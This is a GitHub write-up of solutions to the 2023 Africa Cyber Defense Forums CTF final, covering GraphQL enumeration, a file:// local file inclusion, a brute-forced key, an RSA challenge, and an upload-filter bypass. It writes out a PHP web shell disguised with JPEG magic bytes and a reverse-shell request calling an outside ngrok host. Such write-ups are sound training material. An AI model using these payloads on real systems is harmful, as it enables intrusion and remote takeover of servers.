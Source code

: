 ![Visitors](https://visitor-badge.laobi.icu/badge?page_id=cyberpoul.Final_ACDF_CTF_2023)
<h1> Final Africa Cyber Defense Forums Cyberlympics CTF 2023 </h1>

Team: RedTeam-TG
<br>Id: opscur

I'll give the solutions to some of the challenges that I solved but you can check the full writeups of the team here:
<br>
https://hackmd.io/@RedTeamTG/acdfctf-final-2023
</details>

<br>
<details><summary>Solutions :</summary>
  
- Grandline:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/7.png" alt="img"></p>

This is an injection of graphql code, we even have a console which displays the results of the commands

First of all, we are going to do the enumeration in order to see the functions and methods that are accessible. the following payload does the trick:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/1.png" alt="img"></p>

we can notice that we have an interesting function called "flags" with the id, author, content and flag parameters.
Let's try to query the id 1 of the flags function. here I specified the content and flag parameters.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/2.png" alt="img"></p>


We notice that we have a return with the following content: "Why don't you dig harder"; the rest becomes logical we must identify the id which contains our flag. I first tried id 2 then id 3 which turned out to be the right one.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/3.png" alt="img"></p>

Flag: acdfCTF{L3t_try_s0m3_Graph_0ut}


- Image Lookup:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/6.png" alt="img"></p>

This one is an easy lfi web challenge you just had to call the flag file with the following payload: "file:///flag.txt" , paying attention to encoding the characters /
here is the query that I used to get the flag

```http://16.170.230.246/index.php?url=file%3a%2f%2f%2fflag.txt```

Unfortunately the flag is no longer accessible on the server


- Konoha:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/4.png" alt="img"></p>

we have a source.php file. let's try to analyze it:
```python
<?php
$secretFilePath = '/app/Sup3rs3cr3tFlag.txt';

$secretKey = 'Kismet-Abzee-Berrywuxxxxx';

$requestedFile = isset($_GET['file']) ? $_GET['file'] : '';

$providedKey = isset($_GET['key']) ? $_GET['key'] : '';

$decodedFile = urldecode($requestedFile);

if ($providedKey !== $secretKey) {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
    exit;
}

if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
    $secretContent = file_get_contents($secretFilePath);
    echo $secretContent;
} else {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
}
?>
```
after reading we see that the source.php script gives us the possibility of making GET type requests with the "file" and "key" parameters. key is then the secret code allowing access to the file and file must contain the name of the file. 
```
if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
     $secretContent = file_get_contents($secretFilePath);
     echo $secretContent;
}
```
the previous lines check that the file name corresponds to Sup3rs3cr3tFlag.txt and displays this secret message to us 
```echo $secretContent;```
what could be simpler we have the name of the file and the key to access it.
be careful in the key value we have hidden characters (5 characters x) 'Kismet-Abzee-Berrywuxxxxx'.
It is therefore necessary to brute force the missing x characters. the hint gave us part of the missing characters, we just had to brute force the rest to obtain the flag.
Ps: apparently the 5 missing characters x could be found in the source code of the application personally I didn't solve it like that.
here is the final request to have the flag:

```http://51.20.91.159/source.php?file=Sup3rs3cr3tFlag.txt&key=Kismet-Abzee-Berrywuzh3r3```

The flag has unfortunately been removed from the server. I unfortunately didn't take a picture when I solved it but the previous request still exact..

- DPO Agba:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/8.png" alt="img"></p>

the images from the web server are no longer accessible I'm going to do a writeup for you a little blindly lol, I would have liked to add more illustrations but hey it doesn't matter, let's go.

The first step was to decode the obfuscated data in the source code. Cyberchef made it possible:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/9.png" alt="img"></p>

when we analyze the result we can see that we have a way to upload images to the server using the upload.php file. What better way to have a shell!.
Unfortunately when we tried to upload our image, we have restrictions that prevent us from uploading php files or anything other than images and in addition the file size must not exceed more than 35 bytes. Here we need to bypass these restrictions.

We can trick the filter into thinking the .php file I want to upload is actually a .jpeg file. But I had to modify our file's header like this.

our initial payload: ```<?php system($_GET['cmd']); ?>```

but to make that work we have to change the header to that of a .jpeg file. Checking it up online I found this “FF D8 FF EE”. So, let’s change the header to that; hexed.it does the trick.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/10.png" alt="img"></p>

our final image content should look like this: ```ÿØÿî<?php system($_GET['cmd']); ?>```

Now, that we have successfully changed the header we can upload our file "cmd.php"

after that I just launched a reverse shell on my computer using a TCP connection with an ngrock server. So I was able to have a shell. The next step was to look for the flag on the server. I spent a lot of time looking for the flag before finding it one of the files on the server. 

Here the payload that I used to get the shell:<br>
```http://16.170.159.222/images/cmd.php?cmd=php+-r+'$sock%3dfsockopen("tcp://4.tcp.ngrok.io",16205)%3bexec("sh+<%263+>%263+2>%263")%3b'```

#### Cryptography :
  
- What's going on (solved by opscur):
    
![](https://hackmd.io/_uploads/SkDg9H3z6.png)

This is an RSA challenge, with a bit of guessing. we have an encoded file which contains the flag. The encoded file was provided with a private key to unlock the flag. The difficulty here is that the key is password protected. He made several attempts before coming across the password which was "password". We used cyberchief to decipher the flag as you see below.
    
![](https://hackmd.io/_uploads/SJH2YB3fT.png)

Flag: acdfCTF{4ncrypt10n_1s_W14rd0}

</details>
